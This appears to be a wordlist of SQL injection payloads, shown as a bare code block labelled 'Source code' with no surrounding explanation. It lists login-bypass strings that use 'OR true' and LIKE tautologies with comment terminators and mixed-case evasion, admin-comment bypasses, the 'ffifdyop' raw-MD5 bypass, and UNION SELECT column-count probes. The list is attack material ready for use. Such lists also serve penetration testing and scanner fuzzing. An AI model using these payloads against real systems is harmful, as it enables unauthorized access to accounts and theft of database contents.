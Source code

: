 ```
'oR(true)-- 2
'oR(true)#
'oR(true)/*
'oR(true)oR'
'oR/**/true-- 2
'oR/**/true#
'oR/**/true/*
'oR/**/true/**/oR'
"oR true-- 2
"oR true#
"oR true/*
"oR true oR"
"oR(true)-- 2
"oR(true)#
"oR(true)/*
"oR(true)oR"
"oR/**/true-- 2
"oR/**/true#
"oR/**/true/*
"oR/**/true/**/oR"
'oR'2'LiKE'2
'oR'2'LiKE'2'-- 2
'oR'2'LiKE'2'#
'oR'2'LiKE'2'/*
'oR'2'LiKE'2'oR'
'oR(2)LiKE(2)-- 2
'oR(2)LiKE(2)#
'oR(2)LiKE(2)/*
'oR(2)LiKE(2)oR'
"oR"2"LiKE"2
"oR"2"LiKE"2"-- 2
"oR"2"LiKE"2"#
"oR"2"LiKE"2"/*
"oR"2"LiKE"2"oR"
"oR(2)LiKE(2)-- 2
"oR(2)LiKE(2)#
"oR(2)LiKE(2)/*
"oR(2)LiKE(2)oR"
admin
admin'-- 2
admin'#
admin"-- 2
admin"#
ffifdyop
' UniON SElecT 1,2-- 2
' UniON SElecT 1,2,3-- 2
' UniON SElecT 1,2,3,4-- 2
' UniON SElecT 1,2,3,4,5-- 2
' UniON SElecT 1,2#
' UniON SElecT 1,2,3#
' UniON SElecT 1,2,3,4#
' UniON SElecT 1,2,3,4,5#
'UniON(SElecT(1),2)-- 2
'UniON(SElecT(1),2,3)-- 2
'UniON(SElecT(1),2,3,4)-- 2
'UniON(SElecT(1),2,3,4,5)-- 2
'UniON(SElecT(1),2)#
'UniON(SElecT(1),2,3)#
'UniON(SElecT(1),2,3,4)#
'UniON(SElecT(1),2,3,4,5)#
" UniON SElecT 1,2-- 2
" UniON SElecT 1,2,3-- 2
" UniON SElecT 1,2,3,4-- 2
```